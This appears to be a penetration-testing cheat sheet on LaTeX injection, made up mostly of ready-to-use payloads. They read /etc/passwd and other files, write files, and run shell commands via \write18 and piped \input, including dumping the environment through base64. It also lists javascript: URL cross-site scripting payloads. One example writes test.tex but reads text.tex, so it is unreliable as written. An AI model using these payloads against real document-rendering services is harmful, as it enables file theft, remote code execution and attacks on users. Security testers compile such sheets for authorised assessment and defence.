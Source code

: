 # LaTex Injection

## Read file

Read file and interpret the LaTeX code in it:

```tex
\input{/etc/passwd}
\include{somefile} # load .tex file (somefile.tex)
```

Read single lined file:

```tex
\newread\file
\openin\file=/etc/issue
\read\file to\line
\text{\line}
\closein\file
```

Read multiple lined file:

```tex
\newread\file
\openin\file=/etc/passwd
\loop\unless\ifeof\file
    \read\file to\fileline
    \text{\fileline}
\repeat
\closein\file
```

Read text file, **without** interpreting the content, it will only paste raw file content:

```tex
\usepackage{verbatim}
\verbatiminput{/etc/passwd}
```

If injection point is past document header (`\usepackage` cannot be used), some control 
characters can be deactivated in order to use `\input` on file containing `$`, `#`, 
`_`, `&`, null bytes, ... (eg. perl scripts).

```tex
\catcode `\$=12
\catcode `\#=12
\catcode `\_=12
\catcode `\&=12
\input{path_to_script.pl}
```

## Write file

Write single lined file:

```tex
\newwrite\outfile
\openout\outfile=cmd.tex
\write\outfile{Hello-world}
\write\outfile{Line 2}
\write\outfile{I like trains}
\closeout\outfile
```

## Command execution

The output of the command will be redirected to stdout, therefore you need to use a temp file to get it.

```tex
\immediate\write18{id > output}
\input{output}
```

If you get any LaTex error, consider using base64 to get the result without bad characters (or use `\verbatiminput`):

```tex
\immediate\write18{env | base64 > test.tex}
\input{text.tex}
```

```tex
\input|ls|base64
\input{|"/bin/hostname"}
```

## Cross Site Scripting

From [@EdOverflow](https://twitter.com/intigriti/status/1101509684614320130) 

```tex
\url{javascript:alert(1)}
\href{javascript:alert(1)}{placeholder}
```

Live example at `http://payontriage.com/xss.php?xss=$\href{javascript:alert(1)}{Frogs%20find%20bugs}$`

## References

* [Hacking with LaTeX - Sebastian Neef - 0day.work](https://0day.work/hacking-with-latex/)
* [Latex to RCE, Private Bug Bounty Program - Yasho](https://medium.com/bugbountywriteup/latex-to-rce-private-bug-bounty-program-6a0b5b33d26a)
* [Pwning coworkers thanks to LaTeX](http://scumjr.github.io/2016/11/28/pwning-coworkers-thanks-to-latex/)
